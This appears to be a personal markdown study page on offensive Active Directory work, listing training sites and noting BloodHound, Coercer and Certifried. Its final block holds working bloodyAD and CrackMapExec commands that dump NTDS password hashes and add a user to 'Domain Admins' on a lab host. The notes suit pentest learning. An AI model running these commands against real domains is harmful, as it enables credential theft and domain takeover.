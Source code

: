 
# Learning Resources for Cybersecurity

* TryHackMe
* HackTheBox
* Over The Wire
* https://taggartinstitute.org/


## Random Notes

As a blue teamer, you should run Blood Hound regularly and analyze its output.
As a red teamer, your job is not to fix the vulnerabilities. Your job is to report
the vulnerabilities to the client. It is their decision to make about how to reconfigure their
environment.

### Escalation Paths (esc)
`ESC<number>` : escalation paths

### Coercer
[coercer.py](https://github.com/p0dalirius/Coercer)
A python script to automatically coerce a Windows server 
to authenticate on an arbitrary machine through many methods.


### Certifried: Active Directory Domain Privelege Escalation  
Actice Directory Certificate Services  
Present certificate to access to direcory  
It takes the cert and checks if it corresponds to an active directory object.  



### bloodyAD
```bash
bloodyAD -h 

bloodyAD -d 'domain.name' -u 'users.name' -p 'passwordgoeshere' \
--host 10.10.10.2 get children --target 'Domain Admins'

#when windows stores a password, it stores NTLM hashes, and they all will have the same LandMan hash NTDS hashes. LandMan hashes are not stored anymore. For legacy purposes they still have an entry in there. The second hash from cme smb will be the second hash separated by the colon. You can just use a colon and the NT hash ( :B0B4D2498249AO54UJ9D06E)
cme smb 10.10.10.2 -u 'users.name' -p 'seek' --ntds --user robert.almstead

bloodyAD -d "mydomain.local" -u 'users.name' -p 'passwordgoeshere' \
--host 10.10.10.2 get membership ''

bloodyAD -d "mydomain.local" -u 'users.name' -p 'passwordgoeshere' \
--host 10.10.10.2 add groupMember 'Domain Admins' 'robert.olmstead'

bloodyAD -d "mydomain.local" -u 'users.name' -p 'passwordgoeshere' \
--host 10.10.10.2 remove groupMember 'Domain Admins' 'users.name'
```




